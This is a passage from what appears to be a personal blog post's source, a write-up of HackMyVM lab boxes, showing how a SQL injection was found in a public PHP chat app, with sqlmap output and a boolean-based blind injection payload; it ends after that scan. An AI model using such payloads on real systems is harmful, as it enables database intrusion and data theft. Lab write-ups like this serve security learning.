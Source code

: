 ```yaml
---
layout: post
title:  "HackMyVM: Talk & Speed"
date:   2022-01-23 17:00:00 +1100
category: hacking
---
```


I've done a couple more HackMyVM boxes: Talk and Speed. Talk is Easy rated, Speed is Medium. 

## Talk
Talk was a webapp called chatME which we can find [here](https://www.sourcecodester.com/php/12295/simple-public-chat-room-using-php.html) and if we download it then it doesn't appear to have any input sanitation so is probably open to SQLi. 

{% highlight shell %}
┌──(root💀kali)-[/opt/hackmyvm/talk]
└─# sqlmap -r request --level=2 --risk=2 --batch
# etc
[21:13:27] [INFO] POST parameter 'id' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (2) and risk (2) values? [Y/n] Y
[21:13:27] [INFO] testing 'Generic inline queries'
[21:13:27] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[21:13:27] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[21:13:27] [INFO] testing 'Generic UNION query (NULL) - 21 to 40 columns'
[21:13:27] [INFO] checking if the injection point on POST parameter 'id' is a false positive
POST parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 549 HTTP(s) requests:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: msg=id;id&id=1' RLIKE (SELECT (CASE WHEN (4603=4603) THEN 1 ELSE 0x28 END)) AND 'UTLh'='UTLh
---
[21:13:27] [INFO] the back-end DBMS is MySQL
/usr/lib/python3/dist-packages/pkg_resources/__init__.py:116: PkgResourcesDeprecationWarning: Unknown is an invalid version and will not be supported in a future release
  warnings.warn(
web application technology: Nginx 1.14.2
back-end DBMS: MySQL Unknown (MariaDB fork)
[21:13:27] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.10.66'

[*] ending @ 21:13:27 /2022-01-22/
{% endhighlight %}
